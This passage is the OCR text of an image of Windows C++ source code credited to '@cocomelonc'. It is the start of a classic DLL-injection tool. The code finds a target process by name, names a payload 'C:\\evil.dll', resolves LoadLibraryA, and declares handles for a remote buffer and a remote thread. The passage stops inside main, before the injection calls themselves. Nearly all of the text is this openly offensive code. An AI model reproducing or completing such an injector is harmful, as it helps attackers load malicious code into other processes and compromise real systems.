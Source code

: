 ```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // get process ID by name
  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
```